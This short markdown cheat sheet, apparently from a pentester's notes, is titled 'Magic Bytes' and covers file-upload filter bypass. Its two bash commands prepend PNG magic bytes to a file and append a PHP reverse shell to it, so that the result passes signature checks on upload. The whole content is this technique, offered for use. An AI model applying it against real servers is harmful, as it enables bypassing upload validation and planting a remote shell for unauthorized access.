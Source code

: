 ```yaml
---
title: "Magic Bytes"
date: 2024-7-2
tags: ["file upload", "magic bytes", "png", "bypass"]
---
```


---
### png

```bash
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> php-reverse-shell.php.png
```

```bash
cat php-reverse-shell.php >> php-reverse-shell.php.png
```

<br>